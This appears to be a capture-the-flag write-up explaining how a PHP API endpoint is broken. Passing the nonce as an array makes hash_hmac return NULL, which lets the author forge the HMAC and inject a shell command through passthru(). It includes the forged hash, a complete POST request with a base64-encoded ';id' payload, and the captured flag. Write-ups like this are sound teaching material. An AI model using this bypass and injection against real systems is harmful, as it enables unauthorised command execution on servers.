



# REST in Pieces

> Our insider intern discovered an unauthenticated API endpoint within the database appliance. Along with this information we were able to exfiltrate a code snippet of this endpoint. You can find it on [kleber.io](https://kleber.io/N4WpasYseeLIK3qTZgVdBeN_17fxebJmbb4ILA) or [pastebin](https://pastebin.com/PrRPtVGx). Locate and examine the endpoint.

## Table of Contents

1. [Information Gathering](#information-gathering)
2. [Source Code Analysis](#source-code-analysis)
3. [Proof-of-Concept](#proof-of-concept)
4. [Exploiting the vulnerability](#exploiting-the-vulnerability)
5. [TL;DR](#tldr)
6. [References](#references)

## Information Gathering

In the beginning we were given the [source code](code.php) of the API-Endpoint [/api/vegan/rest](https://db.fishbowl.tech/api/vegan/rest) and also an image of [tomatoes](images/rest.jpg) - I still do not know what the image is about but I guess it was meant to be a hint.

If we visit the endpoint, we are receiving an ASCII-tomato which is changing the text in the speech bubble every time we reload the page.



I was not too focused on the [rest.jpg](images/rest.jpg) or the ASCII-tomato itself though I looked if anything was hidden in rest.jpg but did not investigate furthermore.

## Source Code Analysis

My major focus was on the given [source code](code.php). First I skimmed through the source code tried to get a basic understanding of what it is doing. I looked at the possible inputs and where these inputs lead to. The three user-controlled inputs were `nonce`,`hash` and `action`.
Then I went over and checked what the if-statements were doing. First one was triggered when `action` was not given, the second one was triggered when `hash` was not given and when the `algo`-variable was not in the HMAC-algorithms but that was first of all not interesting because the algorithm itself is hardcoded and not user-controlled and secondly the algorithm `sha256` is in `hash_hmac_algos()`.

Moving on to the last two if-statements, we trigger these if all other if-statements have not failed yet. The third if-statement was more interesting than the previous two. This one was checking if `nonce` was not empty and then hashing a new `$secret` with `hash_hmac()`.
```php
$secret = hash_hmac($command['algo'], $command['nonce'], $secret);
```
We know that we can just control the `nonce` here, the `algo`-variable is already given and we don't know `$secret`. We are also aware that HMAC is relatively secure, so the hashing itself is not insecure.
So I went on looking at the last if-statement and this one was basically hashing with `hash_hmac()` this time with the given `$secret` from the previous if-statement and comparing the result to the user-provided `hash` variable. If the server-side hash and the user-provided hash were not identical, we would get a 401 error.
Only if all if-statements passed, we could reach `passthru($command['action']);` and inject our command.

## Proof-of-Concept

Nevertheless, I started, as always, with visiting the [HMAC-documentation page](https://secure.php.net/manual/de/function.hash-hmac.php) for PHP and started reading my way from top to bottom. The comment-section was more interesting this time. Especially the comment by `Korbendallas` :



This would mean that we could pass `nonce` as an array and therefore control the `$secret`. I tested this out in with the interactive console of PHP using `php -a` and the result was as expected NULL. The more interesting question here was now if `NULL` was a valid secret-key. Easier said than done:
```php
var_dump(hash_hmac('sha256','asfdafasdf', NULL));
```
```
string(64) "bfb1ec78de1ea7209919fb3c379538ca7f5b6e185774c8e53a81e9daaeaf41e9"
```

Yes, `NULL` is valid secret-key, thus we can predict the the server-side generated hash.

So our predictable hash would look like this:
```php
var_dump(hash_hmac('sha256',';id', NULL));
```
```
string(64) "58dedd736c5af324a198c6c663e569df59691854d1f53d704bdbce40f1d139c1"
```

## Exploiting the vulnerability

Now we have our crafted hash and that is everything we need to solve this challenge.
Our POST-request contains an array as `nonce`, the `hash`-variable is the hash above and the `action` is base64 encoded `;id` because in line 23 of our source code is the `action`-variable being base64 decoded.

Our finished POST-request would look like this:
```
POST /api/vegan/rest HTTP/1.1
Host: db.fishbowl.tech
Content-Length: 91
Content-Type: application/x-www-form-urlencoded

hash=58dedd736c5af324a198c6c663e569df59691854d1f53d704bdbce40f1d139c1&action=O2lk&nonce[]=1
```

Let us see what we receive from the server:



This is how the flag looks like:

```
-----BEGIN FISHBOWL FLAG-----
aDCgh/YAd4HikuBgcD/LrXucO0h7KuAM0yarlnRwce/RYtGc
rXDb8DFI6Vz/TShYvCIKe1yv+ZiMFbqHnxvCOFBC3sxQ0TsF
i3+j8hwD6LsV4lJIKKOylcWRnPqe8Xtl0r7QumNpVOaJKKgc
Mcb5QBGUVvpiyDzDrvBphCaFJEGnkVICW0GeyBJ03Ruh0D2o
mXwHTaPT5dBqGj3Khcea2C2wzpe/wbLail7cqQWv5s2dKbr0
d+q5qq1FQ1i2vam7HluywapWAc9tjw7GC0H+j0sz9QYtsrQw
5SA0ZFeVhL9DsXMcxacTv5xU1T4mFpRrk72ACO0DYY9PADiI
WW1AJ4JPdZIgLNA3DdYrS5U/akWzTP6docd9zv1t59HJO4ke
/VpACBLjLTVijN79H0w0vDK+gwSAVg2hO5eNQnG2MYPUB6k+
kwQAaVFpDeaoOIPkSprquBhEVPl6ifz+wrkhEzod6P3CVnUy
oVXvRa6k6vM74rjqTKJM7To3glTZ2CHobVV43WZXN9objuqD
oE4fdEgJcbfSgnq5kgnKruz/m8vwHTRjR9DqZDZbRbMOPKn9
dNo16m4M3OXv0vL/Q+RGbCHUw/kNYPgCbRqsMByu/dFLTUFX
vUlvwq7/msnlnfP2Nl4fDGjCCQhGEorRUnnlpq3lczBHYFS8
y9JTAAG9tHQ=
-----END FISHBOWL FLAG-----
```

**Yes, we did it! We got the flag! :smile:**


## TL;DR

Passing `nonce` as an array causes the first HMAC to return `NULL` which lets us control `$secret`. This gives us the ability to predict the outcome of the next HMAC because `NULL` is a valid secret-key. Therefore we can locally hash our `action` with the `$secret = NULL` and pass it as our `hash` value to the server along with the base64 encoded `action` variable and our `nonce` array.

## References

* [PHP's HMAC Documentation page](https://secure.php.net/manual/de/function.hash-hmac.php)
* [LiveOverflow - Let’s play a game: what is the deadly bug here?](http://www.youtube.com/watch?v=MpeaSNERwQA)
* [A great blog article explaining the behavior of HMAC with NULL as the key](https://www.securify.nl/en/blog/SFY20180101/spot-the-bug-challenge-2018-warm-up.html)
